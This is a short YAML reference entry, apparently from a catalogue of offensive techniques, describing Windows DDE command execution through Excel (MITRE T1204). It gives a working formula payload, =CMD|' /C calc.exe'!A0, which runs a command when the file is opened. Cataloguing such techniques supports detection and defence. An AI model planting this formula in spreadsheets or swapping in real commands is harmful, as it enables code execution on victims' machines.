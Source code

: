 ```yaml
---
Name: DDE
Description: Dynamic Data Exchange (DDE) is an inter-process communication method used in Windows to allow applications to share data and commands in real-time, enabling features such as embedding objects and automating tasks between software like Microsoft Excel and other applications.
Author: 'Hegusung'
Created: 2024-10-25
Categories:
  - Category: CMD
    Description: DDE - Command execution
    Usecase: Execute a command through a Excel file
    MitreID: T1204
    OperatingSystem: Windows XP, Windows 7, Windows 8, Windows 10, Windows 11
    Code: |
      =CMD|' /C calc.exe'!A0
    Code_Sample:
    Tags:
      - Origin: Clickable
Detection:
Resources:
Acknowledgement:
---
```

